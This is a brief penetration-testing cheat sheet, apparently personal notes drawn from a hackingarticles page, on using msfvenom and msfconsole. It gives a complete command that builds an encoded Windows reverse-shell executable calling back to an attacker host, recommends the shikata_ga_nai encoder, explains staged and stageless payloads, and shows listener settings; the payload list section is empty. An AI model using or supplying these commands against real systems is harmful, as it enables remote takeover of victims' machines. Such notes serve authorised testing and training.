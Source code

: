 https://www.hackingarticles.in/msfvenom-cheatsheet-windows-exploitation/
##### Standard usage
`msfvenom -a ARCH -p PAYLOAD -e ENCODER -f FORMAT -o OUTPUT LHOST=IP LPORT=PORT`

##### Important formats
Windows: `dll, exe, exe-service, powershell, msi`
Linux: `elf, bash`
Misc: `python, ruby `

##### Useful encoders
Windows: `x86/shikata_ga_nai, x86/opt_sub`

###### Important payloads
Windows: ``
Linux: ``
##### Windows
```
msfvenom -a ARCH -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -f EXE -o winshell.exe LHOST=IP LPORT=PORT
```

##### Staged vs stageless
Staged payloads: Small bit of code that connects to the attacker, then downloads an actual payload to the RAM.
Example: `windows/shell/reverse_tcp`

Stageless payloads: Full payload, connects to listener when executed.
Example: `windows/shell_reverse_tcp

##### MSFConsole:
```
set payload METERPRETER_PAYLOAD  // meterpreter/ payloads
set LHOST 0.0.0.0
set LPORT 4444
run -j  // Run in background
```
